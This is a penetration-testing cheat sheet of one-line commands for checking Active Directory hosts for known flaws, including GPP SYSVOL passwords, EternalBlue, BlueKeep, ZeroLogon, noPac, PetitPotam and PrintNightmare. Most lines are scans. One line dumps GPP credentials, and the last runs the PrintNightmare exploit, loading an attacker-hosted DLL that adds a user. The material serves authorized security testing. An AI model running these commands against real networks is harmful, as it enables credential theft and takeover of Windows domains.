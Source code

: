 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M gpp_password
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: ./targets/domain/computers.txt

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DOMAIN_CONTROLLER

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: DOMAIN_CONTROLLER
= user: ${USER}
= password: ${PASSWORD}
= domain: ${DOMAIN}

## Check PetitPotam (CVE-2021-36942)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M petitpotam
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare with Docker (CVE-2021-34527)

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $PWD/ad_computers.txt

## Check Print Nightmare with local install (CVE-2021-34527)

```
itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $PWD/ad_computers.txt

## Exploit Print Nightmare (CVE-2021-34527)

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
